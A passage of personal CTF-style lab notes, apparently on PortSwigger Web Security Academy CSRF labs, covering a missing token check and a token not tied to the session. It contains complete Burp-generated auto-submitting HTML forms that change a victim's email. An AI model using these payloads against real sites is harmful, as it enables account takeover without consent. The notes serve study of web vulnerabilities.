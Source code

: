 ```
    <script src="https://0acf00e803bb5468805b0dad00750023.web-security-academy.net/my-account/change-email?email=test%40test.com">
    </script>
  </body>
</html>
```

# CSRF where token validation depends on token being present
Change the victim's email.
## Observations
- The form has a CSRF token but if I delete it and send it through the function works anyhow. 
Created a payload with Burp:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1f006b037fd410809f1cbe003f0060.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# CSRF where token is not tied to user session
Change the user's email
## Observations
- Provided two accounts carlos and peter which is unusual
- Can change emails and form has CSRF tokens
- Found that as long as CSRF token is valid, it doesn't matter which account is used so its not tied to the user's account but just validated for simply being valid. Meaning, we can take out CSRF token, put it in the payload and it should work to change the victim's email. 
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae700c60336907f80e417ab005b00d3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="2nKP9xvFJsCPiHdQVRJbRqvpWPtWv9VL" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Just make sure to grab a fresh CSRF token from the form before delivery so that  you aren't submitting a used token. 
